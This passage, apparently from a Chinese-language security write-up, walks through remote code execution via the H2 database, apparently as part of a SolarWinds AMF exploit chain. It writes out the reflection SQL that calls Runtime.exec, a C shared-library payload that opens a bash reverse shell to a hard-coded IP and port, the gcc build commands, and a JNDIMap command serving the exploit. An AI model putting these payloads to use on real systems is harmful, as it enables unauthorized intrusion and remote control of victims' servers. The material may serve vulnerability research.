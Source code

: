 `JAVA_OBJECT` 对应的 Java 对象必须是可序列化的 (Serializable)

假如要执行 `java.lang.Runtime.getRuntime().exec(cmd)`, SQL 语句如下

```plain
CREATE ALIAS INVOKE_STATIC_METHOD FOR '...'
CREATE ALIAS INVOKE_METHOD FOR '...'
CREATE ALIAS CLASS_FOR_NAME FOR '...'

SET @clazz=CLASS_FOR_NAME('java.lang.Runtime')
SET @runtime=INVOKE_STATIC_METHOD(@clazz, 'getRuntime', NULL)
CALL INVOKE_METHOD(@runtime, 'exec', 'open -a Calculator')
```

上述过程中 JVM 返回的 Class 对象和 Runtime 对象会被序列化保存在 H2 数据库的 clazz 和 runtime 变量内 (类型为 `JAVA_OBJECT`)

而 java.lang.Runtime 没有实现 Serializable 接口，因此 SQL 语句会报错，即需要保证过程中使用的所有变量都得是可序列化的

至于为什么还要专门找一个反射调用静态方法的 invokeStaticMethod, 这是因为上面通过 invokeMethod 调用 getAbsolutePath 返回的临时文件路径的类型为 java.lang.Object (实际上为 java.lang.String)

但是 H2 不支持 `JAVA_OBJECT` 与 VARCHAR (CHARACTER VARYING) 之间的类型转换，也就无法将路径作为参数传入 `java.lang.System.load(java.lang.String)`

[https://github.com/h2database/h2database/issues/3389](https://github.com/h2database/h2database/issues/3389)

因此需要找到一个参数类型为 java.lang.Object 的静态方法 (invokeStaticMethod), 然后通过这个方法间接调用 System.load, 进而加载动态链接库实现 RCE

最后要注意编译出来的 .so 比较大，转成 Hex 后字符串的长度过长，直接写会报错，需要分块写入

利用流程：

首先编写 exp.c

```plain
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/100.109.34.110/4444 0>&1'");
}
```

编译

```plain
# Linux amd64
gcc -shared -fPIC exp.c -o exp.so
```

根据之前的代码生成 payload.amf

然后将 Groovy payload 保存，运行 [JNDIMap](https://github.com/X1r0z/JNDIMap)

```plain
java -jar JNDIMap.jar -f scripts/solarwinds-amf-rce-1.groovy -u "/Custom/x"
```

